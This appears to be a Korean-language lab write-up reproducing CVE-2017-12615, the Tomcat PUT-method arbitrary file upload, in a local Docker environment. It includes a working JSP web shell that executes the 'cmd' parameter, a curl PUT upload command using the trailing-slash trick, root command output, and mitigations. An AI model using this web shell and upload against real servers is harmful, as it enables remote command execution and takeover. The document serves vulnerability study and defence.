

# Tomcat PUT 메서드를 통한 임의 파일 업로드 취약점 (CVE-2017-12615)

Tomcat 버전: 8.5.19

## 요약

CVE-2017-12615는 Apache Tomcat에서 HTTP PUT 메서드가 활성화되어 있을때 발생하는 임의 파일 업로드 취약점이다. 
취약한 환경에서는 공격자가 PUT 요청을 통해 웹 루트 경로에 파일을 작성할 수 있으며, JSP 파일 업로드에 성공할 경우 Tomcat 프로세스의 권한으로 운영체제 명령을 실행할 수 있다.

## 환경 구성

다음 명령어를 실행하여 취약한 Tomcat 환경을 구축한다.

```bash
docker compose up -d
```
명령어가 정상적으로 실행되면 웹 브라우저에서 다음 주소로 접속하여 Tomcat 기본 페이지를 확인할 수 있다.
`http://your-ip:8080`

## 취약 조건

  이 취약점이 재현되기 위한 조건은 다음과 같다.

  - Apache Tomcat 취약 버전 사용
  - HTTP PUT 메서드 활성화
  - DefaultServlet 설정에서 `readonly=false`
  - 외부 사용자가 웹 루트 경로에 PUT 요청을 보낼 수 있음

## 재현 절차

  1. Docker Compose로 취약 환경을 실행한다.

      `docker compose up -d`

  2. Tomcat 기본 페이지에 접속하여 서버 실행 상태를 확인한다.

  3. `cmd` 매개변수로 전달된 운영체제 명령을 실행하는 JSP 파일을 작성한다.

```jsp
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");

if (cmd != null) {
    Process process = Runtime.getRuntime().exec(
        new String[]{"/bin/sh", "-c", cmd}
    );

    BufferedReader reader = new BufferedReader(
        new InputStreamReader(process.getInputStream())
    );

    String line;

    while ((line = reader.readLine()) != null) {
        out.println(line + "<br>");
    }
}
%>
```

  위 코드를 `cmd.jsp` 파일로  저장한다.

  4. PUT 요청으로 JSP 파일을 업로드한다.

```
curl -i -X PUT --data-binary @cmd.jsp http://127.0.0.1:8080/cmd.jsp/
```

  5. 브라우저에서 업로드된 JSP 파일에 `cmd` 매개변수를 전달한다.

      `http://127.0.0.1:8080/cmd.jsp?cmd=id`
     
  Vulhub를 로컬 Docker 환경에서 실행했기 때문에 127.0.0.1:8080으로 접근하였다.
  원격 환경 또는 별도 공격자 머신에서 접근하는 경우에는 Vulhub가 실행 중인 대상 서버의
  IP를 사용해야 한다.

## PoC 코드

```
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");

if (cmd != null) {
    Process process = Runtime.getRuntime().exec(
        new String[]{"/bin/sh", "-c", cmd}
    );

    BufferedReader reader = new BufferedReader(
        new InputStreamReader(process.getInputStream())
    );

    String line;

    while ((line = reader.readLine()) != null) {
        out.println(line + "<br>");
    }
}
%>
```

```
curl -i -X PUT --data-binary @cmd.jsp http://127.0.0.1:8080/cmd.jsp/
```

  `cmd.jsp`는 취약점 재현을 위해 PUT 요청으로 업로드하는 테스트용 JSP 파일이다.

  해당 JSP 파일은 URL의 `cmd` 매개변수 값을 읽어 운영체제 명령으로 실행한다.

## 실행 결과

  PUT 요청이 성공하면 Tomcat 서버의 웹 루트 디렉토리에 `cmd.jsp` 파일이 생성된다.

  이후 다음 주소에 접속하면 `cmd` 매개변수로 전달한 `id` 명령이 실행된다.

  `http://127.0.0.1:8080/cmd.jsp?cmd=id`
  
  
  출력 결과는 다음과 같다.

```
uid=0(root) gid=0(root) groups=0(root)
```

  위 결과는 업로드된 JSP 파일이 Tomcat 서버에서 실행되었으며, Docker 컨테이너 내부에서 운영체제 명령을 실행할 수 있음을 의미한다.

  실행 결과 화면:
  
  


## 대응 방안

  - Apache Tomcat을 보안 패치가 적용된 버전으로 업그레이드
  - 운영 환경에서 HTTP PUT 메서드 비활성화
  - DefaultServlet의 readonly 값을 true로 유지
  - 웹 루트 경로에 JSP 등 실행 가능한 파일 업로드 차단
  - 불필요한 Tomcat 기본 애플리케이션 및 예제 애플리케이션 제거
